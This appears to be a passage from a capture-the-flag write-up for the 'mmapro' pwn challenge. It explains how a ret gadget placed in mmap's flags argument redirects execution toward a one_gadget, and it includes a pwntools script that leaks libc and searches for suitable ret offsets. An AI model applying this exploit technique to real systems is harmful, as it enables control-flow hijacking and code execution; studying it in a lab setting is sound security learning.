- Nothing worked 🤔 
- Ok, we can still jump to one gadget, since we have control over stack, the next address in the stack is also controllable by us => fd, currently it's `-1`, and it's not required since we are mapping an anonymous page
- So let's plan to put a `ret` gadget address value in `flags` instead of directly putting the `one_gadget`'s address
- Initially I tried to get `ret` gadget using ropper, and tried many gadgets manually, nothing worked in my favour
- So I extracted every single ret gadget from the libc `search -t byte 0xc3 -e` and used it in flags


```python 
#!/usr/bin/env python3
from pwn import *
from termcolor import colored
import sys

elf = context.binary = ELF("mmapro_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-2.37.so",checksec=False)
context.terminal = ["alacritty", "-e"]
context.log_level = "CRITICAL"

p = gdb.debug(context.binary.path,'c',api=True)

mmap_leak = u64(p.recv())
libc_base = mmap_leak - 1138464
the_mmap64_plus_23_itself = (libc_base + 0x115f37) - 0xf37

addr   = the_mmap64_plus_23_itself
length = 0x57000
prot   = 0x7
flags  = libc_base + int(sys.argv[1],16)
fd     = -1
offset = 0

payload = flat(
    addr,
    length,
    prot,
    flags,
    fd,
    offset
)
p.sendline(payload)
rip_val = p.gdb.newest_frame().read_register('rip')
if (rip_val == 0xffffffffffffffff):
    open('suitable_ret_offset.txt','a').write(sys.argv[1]+'\n')
p.interactive()
```
 <br>

